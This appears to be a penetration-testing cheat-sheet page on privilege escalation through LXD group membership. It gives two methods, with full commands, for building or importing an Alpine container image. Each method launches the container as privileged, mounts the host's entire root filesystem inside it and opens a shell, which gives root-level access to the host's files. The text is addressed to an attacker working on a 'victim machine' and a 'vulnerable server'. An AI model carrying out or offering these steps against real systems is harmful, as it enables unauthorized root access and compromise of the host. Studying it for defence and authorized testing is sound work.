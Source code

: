 ## With internet
	
	lxc init ubuntu:16.04 test -c security.privileged=true
	lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
	lxc start test
	lxc exec test bash
	
	cd /mnt #Here is where the filesystem is mounted
## Without internet
### Method 1
You can install in your machine this distro builder: 
(follow the instructions of the github):
	
	sudo su
	
	#Install requirements
	sudo apt update
	sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
	
	#Clone repo
	git clone https://github.com/lxc/distrobuilder
	
	#Make distrobuilder
	cd distrobuilder
	make
	
	#Prepare the creation of alpine
	mkdir -p $HOME/ContainerImages/alpine/
	cd $HOME/ContainerImages/alpine/
	wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
	
	#Create the container
	sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
	
Then, upload to the vulnerable server the files lxd.tar.xz and rootfs.squashfs
Add the image:

	lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
	lxc image list #You can see your new imported image

Create a container and add root path

	lxc init alpine privesc -c security.privileged=true
	lxc list #List containers​
	lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
	
If you find this error Error: No storage pool found. Please create a new storage pool
Run lxd init and repeat the previous chunk of commands

Execute the container:

	lxc start privesc
	lxc exec privesc /bin/sh
	cd /mnt #Here is where the filesystem is mounted
### Method 2
Build an Alpine image and start it using the flag security.privileged=true, forcing the container to interact as root with the host filesystem.


	# build a simple alpine image
	git clone https://github.com/saghul/lxd-alpine-builder
	cd lxd-alpine-builder
	sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
	sudo ./build-alpine -a i686
	​
	# import the image
	lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.​
	
	# before running the image, start and configure the lxd storage pool as default 
	lxd init​
	
	# run the image
	lxc init myimage mycontainer -c security.privileged=true​
	
	# mount the /root into the image
	lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
	​
	# interact with the container
	lxc start mycontainer
	lxc exec mycontainer /bin/sh

Alternatively ​https://github.com/initstring/lxd_root